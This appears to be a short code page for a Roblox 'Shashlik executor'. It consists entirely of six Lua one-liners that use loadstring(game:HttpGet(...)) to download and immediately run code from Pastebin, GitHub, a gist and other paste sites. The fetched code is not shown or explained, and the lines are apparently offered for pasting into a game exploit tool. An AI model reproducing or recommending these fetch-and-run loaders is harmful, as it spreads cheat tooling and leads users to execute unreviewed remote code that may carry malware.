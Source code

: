 

loadstring(game:HttpGet("https://pastebin.com/raw/gth2hydY"))()

loadstring(game:HttpGet("https://raw.githubusercontent.com/sovetskii-shashlik/Shashlik-executor-1.1/refs/heads/main/Шашлык%20машлык.txt"))()

loadstring(game:HttpGet("https://glot.io/snippets/h3n1t3tj5i/raw/main.lua"))()

loadstring(game:HttpGet("https://paste.myst.rs/raw/y1gh2ys9/qtopv7u9"))()

loadstring(game:HttpGet("https://pastes.io/raw/shashlik-8"))()

loadstring(game:HttpGet("https://gist.github.com/sovetskii-shashlik/538822fcd5a171e726800a573627543e/raw/3ea2b888609345258ddc872dca3f531b8b823033/Shashlik-executor-1.1.lua"))()
